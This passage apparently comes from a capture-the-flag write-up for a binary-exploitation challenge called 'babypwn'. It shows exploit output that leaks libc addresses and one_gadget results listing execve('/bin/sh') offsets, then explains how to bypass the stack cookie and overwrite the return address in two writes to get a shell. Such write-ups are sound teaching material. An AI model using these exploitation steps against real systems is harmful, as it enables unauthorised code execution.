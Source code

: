 ```
➜  babypwn python exp.py
[+] Starting local process './challenge': pid 8191

[*] Free: 0x7f1375e244f0
[*] Puts: 0x7f1375e0f690
[*] Setbuf: 0x7f1375e166b0
[*] Printf: 0x746165726320
[*] Switching to interactive mode
ed!
Create a tressure box?
```
The value of printf is very far from the others, showing that this hasn't been linked yet. We can search for the other 3 values in the database to see that the binary uses libc6_2.23-0ubuntu10_amd64.so.

Let's get this binary and run one_gadget on it.

```
➜  babypwn one_gadget libc.so.6
[OneGadget] Checking for new versions of OneGadget
            To disable this functionality, do
            $ echo never > /home/vagrant/.cache/one_gadget/update

[OneGadget] A newer version of OneGadget is available (1.6.0 --> 1.6.2).
            Update with: $ gem update one_gadget

0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
➜  babypwn
```

One_gadget shows me a few locations that could give me a shell, but I will use the second option, 0x4526a. I usually do not choose options that require a register to be NULL because this seems less reliable. 

Now that I can give input again, I will do the same as before to send extra coins, ignore the stack cookie, and overwrite the return address. However, in this case the return address will take two writes because the libc value is over 4 bytes large. To do this, I will write one_gadget & 0xffffffff first, then one_gadget >> 32. This wil give me the lower 4 bytes in the first coin slot and the upper 4 bytes in the next coin slow. Let's see if this works!
